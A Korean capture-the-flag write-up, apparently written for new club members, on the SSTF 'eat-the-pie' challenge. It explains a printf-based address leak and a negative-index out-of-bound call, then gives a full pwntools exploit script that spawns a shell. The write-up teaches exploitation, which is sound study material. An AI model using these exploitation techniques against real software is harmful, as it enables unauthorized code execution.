




# 머릿말


뉴비부터 고수까지 모두 즐길 수 있는 CTF라는 소개글을 보고 대학 동아리 신입생들을 데리고 SSTF에 출전했습니다. 아쉽게도 좋은 성적을 내진 못했네요. 사실 이 write-up은 같이 출전한 신입생 친구들에게 보여주려고 작성했는데 몇 명이나 읽었을지...

CTF를 처음 경험하는 친구들이라 최대한 풀어서 설명을 적었으며, CTF에 대한 저의 견해도 조금씩 섞여 있습니다. eat-the-pie를 풀 당시 저의 사고 흐름을 중심으로 작성했고 이 글을 읽으실 때도 이점을 기억해주세요.

[ 취약점 ]

1. Memory Leak With Printf

2. Out-Of-Bound


# 훑어보기


`pwnme()`라는 이름의 함수가 있다. ~~"동네 사람들!!! 취약점 여기 있어요!!!"~~

CTF에서 이렇게 취약점의 위치를 알려주는 문제들은 주로 취약점은 간단하지만 exploit으로 연결시키는 것이 어려운 컨셉의 문제들입니다. eat-the-pie도 이런 컨셉의 문제인 거 같죠?

~~[ ! ] 심지어 문제 이름도 PIE 우회를 암시하고 있다.~~

대충 eat-the-pie 문제를 설명하자면,

1. stack에 vtable을 만들고 `read()`로 입력을 받음.
2. `read()`로 받은 입력 값을 이용해 vtable로부터 함수를 참조 실행.

이 두 가지 정도만 알면 되는 간단한 프로그램입니다.

CTF 문제들은 의도적으로 취약점을 만들어 놨기 때문에 짱구를 조금만 굴려 보면

코드에서 많은 힌트를 얻을 수 있습니다. 

[ ! ] Real world와 대조되는 큰 차이점이다.

위 사진에서 하이라이트 된 부분을 보고 최대한 많은 정보를 알아내 봅시다.


# 취약점 예상 ( 정적 분석 )


1. 입력을 굳이 int가 아닌 string형으로 16 byte나 받는다.

int( 4 byte )가 아닌 string으로 16 byte나 입력받는 것은 12 byte만큼 메모리를 낭비하는 것이고 입력받은 string을 int로 바꾸는 과정을 한번 더 걸치니 결코 합리적인 코드가 아닙니다. 즉, 취약점으로 빌드 업 되도록 의도된 코드인 거 같죠? `atoi()` 혹은 `printf()` 등 NULL terminated string 함수를 사용한다는 것도 중요한 정보인 것 같습니다.

2. if문의 조건이 모든 경우의 수를 커버하지 못함.

index를 이용해 참조하는 코드가 있다면 가장 먼저 확인해야 할 것이 있습니다. 바로, out-of-bound 가능 여부. 코드를 살펴보면 음수에 대한 예외 처리를 하지 않은 것을 알 수 있습니다. 심지어 indirect call에 사용되는 index의 out-of-bound네요.

그럼 대충 예상해 보면 취약점은 아래와 같습니다.

1. NULL terminated string의 예외 처리 부재로 PIE 우회
2. out-of-bound로 eip 제어

예상이 맞는지 한번 확인해 봅시다.


# Memory Leak with printf


PIE를 우회하는 법은 간단합니다. binary의 base address를 leak 하면 되니까요.

예를 들어 func1의 주소인 `0x5655574d`를 leak 했다면 `0x5655574d`에서 `func1`의 offset인 `0x74d`를 빼서 binary base address를 구할 수 있습니다.




16 byte 길이의 string을 입력하면 vtable 바로 위에 저장되는 것을 확인할 수 있습니다. 이 상태로 `printf()` 실행을 트리거하면 `func1 ~ func4`의 주소도 같이 출력됩니다. `printf()`는 NULL terminated string을 다루는 함수이기 때문에 NULL을 만나기 전까진 멈추지 않고 계속 출력한 결과입니다.


# Out-Of-Bound


Indirect call에 사용될 인덱스에 따라 스택 상황을 출력한 사진에 번호를 새겨봤습니다. 좀 전에 indirect call에서 음수에 대한 예외 처리를 하지 않아 out-of-bound가 가능하다고 설명했습니다. 만약 현 상황에서 -3을 입력한다면 eip에 `0x42424242` 가 들어가겠죠?




예상대로 취약점은 정말 간단합니다. 이제 exploit을 해봅시다.


# Exploit Plan


주어진 정보와 제약 상황 등을 고려하며 추가로 필요한 정보가 있는지 체크해봅시다.

1. `system()`을 바이너리에서 사용함.
    - Arbitrary Write( AW )가 가능하다면 bss에 "/bin/sh"을 넣어주기만 하면 됨
2. Libc 주소를 leak 하기 번거로움 
3. PIE가 있는 상황에서 stack 주소를 leak 하기 번거로움

[ ! ] 결론

Arbitrary Write 할 방법을 찾자.

"/bin/sh"을 bss에 저장하고 `system( bss )`를 하면 쉘 획득 가능.


# Arbitrary Write




Arbitrary Write(Write anything anywhere)를 하려면 당연히 쓰기 함수가 있어야 하겠죠?. 사용 가능한 쓰기 함수는 `read()`가 유일합니다.


out-of-bound로 `read()`를 AW에 사용하려는 지금 상황에서 넘어야 할 장애물이 2가지가 있습니다.

1. call로 eip를 잡는다는 점
2. `read()`는 인자를 3개나 받는다는 점


일단 첫 번째, call로 함수를 호출하기 전에 충족돼야 하는 조건이 있는데,

1. 호출당하는 함수가 쓸 인자들이 stack에 push 돼 있어야 함.
2. ESP가 그 인자들 중 가장 낮은 주소에 위치해야 함.

적절한 gadget을 사용한다면 이 두 가지 조건을 충족하는 것은 대부분 크게 어려운 일이 아닙니다. 하지만 pyload를 담을 메모리가 16byte 밖에 없기 때문에 이마저도 어려운 일이 돼 버렸네요.

[ ! ] indexVar + gadget + parameter1 + parameter2 + parameter3 + &read() = 24 byte


한참 고민하다가 한 가지 생각이 머리를 스치고 갔습니다.

"32 bit의 인자 push는 역순으로 이뤄진다!" ~~이때 이마를 탁 치고 유레카를 외쳤습니다.~~

결론부터 적자면 위 사진에서 하이라이트 된 부분을 gadget으로 사용하면 됩니다.


위 사진은 `pwnme()`에서 `read( 0, &v0, 0x10 )`에 해당하는 어셈 코드입니다. 3번째 인자부터 역순으로 stack에 push 하는 게 보이시나요? 만약 3번째 인자를 push 하는 코드를 건너뛰고 `<pwnme+198>`부터 실행된다면 `read()`가 호출될 때 stack에 있던 쓰레기 값( ~~사실 ret addr~~ )을 `read()`의 3번째 인자로 인식하게 됩니다.



테스트해보면 예상과 같이 `read( 0, &v0, 0x566109bc )`가 실행됩니다. 이 가젯을 사용한다면 16 byte 입력 제한으로 불가능했던 AW가 가능해집니다.


# Exploit


```python
from pwn import*

#p = remote('eat-the-pie.sstf.site', '1337')
p = process('./target')
e = ELF('./target')

read_plt = e.plt['read']
system = e.plt['system']
bss = e.bss()

# leak binary base
payload = 'A'*12 + 'BBBB'
p.sendlineafter('Select > ', payload)

p.sendlineafter('Select > ', '4')
p.recvuntil('BBBB')
leak = u32(p.recv(4)) - 0x74d
log.info(hex(leak))

# overflow vtable with gadget
payload = '-3'+ '\x00\x00' + p32(leak+0x970) # read() in pwnme() without len
p.sendlineafter('Select > ', payload)

# arbitrary write to bss
payload = p32(0) + p32(leak+bss) + p32(8) + 'AAAA' + p32(leak+read_plt)
p.sendline(payload)
p.sendline('/bin/sh\x00')

# overflow vtable with gadget
payload = '-3'+ '\x00\x00' + p32(leak+0x970)
p.sendlineafter('Select > ', payload)

# system("/bin/sh");
payload = 'AAAABBBBCCCC'+ p32(leak+system) + p32(leak+0xa99) + p32(leak+bss)
p.sendline(payload) # 0xa99 == pop pop pop ret

p.interactive()
```


Q.E.D